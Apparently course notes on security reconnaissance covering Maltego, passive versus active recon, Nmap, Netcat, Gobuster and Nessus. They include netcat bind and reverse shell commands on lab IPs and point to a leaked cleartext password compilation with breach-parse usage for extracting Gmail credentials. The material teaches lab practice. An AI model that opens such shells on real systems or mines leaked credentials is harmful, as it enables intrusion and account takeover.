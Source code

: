 # Agenda

- Passive Reconnaissance
- Passive vs. Active Reconnaissance
- Main Tools and Techniques

## Exercise (Maltego)
- Register on Maltego.
- Activate "Run All" for "ALL TRANSFORMS."
- Choose a company from the top 50 and run Maltego on its domain.
- Choose a public figure and run Maltego.

## Passive Reconnaissance
A database containing more than 1.4 billion passwords in clear text, including many from Portuguese users, can be found here:
[GitHub - tensorflow-1.4-billion-password-analysis](https://github.com/philipperemy/tensorflow-1.4-billion-password-analysis)

This GitHub repository provides a script to help analyze the database:
[GitHub - breach-parse](https://github.com/hmaverickadams/breach-parse)

Example usage for emails with @gmail.com:
```
breach-parse @gmail.com gmail.txt "./BreachCompilation/data"
```

### Data Leaks
- [Have I Been Pwned](https://haveibeenpwned.com/)
- [Dehashed](https://www.dehashed.com)

## Passive vs. Active Reconnaissance

| Aspect | Passive Reconnaissance | Active Reconnaissance |
|--------|------------------------|-----------------------|
| Interaction with target | None | Direct contact with the target |
| Detection Risk | Low | High |
| Examples | Google search, DNS, WHOIS, etc. | Ping, Port Scanning, etc. |
| Is it legal? | Yes | Maybe (depends on authorization) |

## Active Reconnaissance

### Tools
- **Nmap**: Scans IPs and ports, identifies services, versions, OS, etc.
- **Fping**: Multiple ping scanning for quick network discovery.
- **Recon-ng**: Excellent host discovery.
- **Whatweb**: Identifies website technologies (e.g., WordPress).
- **Netcat**: Direct communication with open ports.
- **Gobuster**: Searches for hidden directories and subdomains.
- **Nessus**: Powerful vulnerability scanning and security analysis tool.

### Nmap
Installation:
```
sudo apt install nmap
```
Scan the most common 1000 ports:
```
nmap -v -oG - | grep "Ports scanned"
```
Scan all 65535 ports and detect service versions:
```
nmap –sV -p- 10.0.2.7
```
Scan for vulnerabilities:
```
nmap --script vuln scanme.nmap.org
```
Detect OS:
```
nmap -O 10.0.2.7
```

### Fping
Scan for active hosts in a network:
```
fping -a -g 10.0.2.0/24
```

### Recon-ng
```
recon-ng
marketplace install hackertarget
modules load hackertarget
options set SOURCE example.com
run
show hosts
```

### Whatweb
```
whatweb example.com
```

### Netcat
Open a port for listening:
```
nc -l -p 12345
```
Connect to a listening host:
```
nc 10.0.2.4 12345
```
Backup over the network:
```
nc -l -p 12345 > backup.tar.gz
tar -czf - ./novapasta | nc 10.0.2.5 12345
```

### Netcat - Bind Shell
Victim opens a communication port:
```
nc -lvp 12345 -e /bin/bash
```
Attacker connects:
```
nc 10.0.2.4 12345
```

### Netcat - Reverse Shell
Attacker listens for a connection:
```
nc -lvp 12345
```
Victim connects to the attacker’s shell:
```
nc 10.0.2.15 12345 -e /bin/bash
```

### Gobuster
Find available web directories:
```
gobuster dir -u http://10.0.2.4 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

## DNS Records

### SPF Records Example
```
v=spf1 ip4:213.14.2.0/24 include:example.com –all
```
**SPF Components:**
- **v=spf1**: Defines SPF version.
- **ip4 or ip6**: Specifies allowed IPs.
- **include**: Allows SPF records from another domain.
- **-all, ~all, +all**:
  - `-all`: Reject unauthorized servers.
  - `~all`: Accept but mark as suspicious.
  - `+all`: Accept from any server (not recommended).

## Installing Nessus
[Download Nessus](https://www.tenable.com/downloads/nessus)
```
wget https://www.tenable.com/downloads/api/v1/public/pages/nessus/downloads/24321/download?i_agree_to_tenable_license_agreement=true
mv 'download?i_agree_to_tenable_license_agreement=true' Nessus-10.5.2-debian10_amd64.deb
sudo dpkg -i Nessus-10.5.2-debian10_amd64.deb
```
Start Nessus:
```
sudo systemctl start nessusd
```
Open in browser:
```
https://127.0.0.1:8834
```
Register as **Nessus Essentials**.

## Nessus Scanning
Perform two **Basic Network Scans**:
- `scanme.nmap.org`
- `10.0.2.4` (validate a local network IP)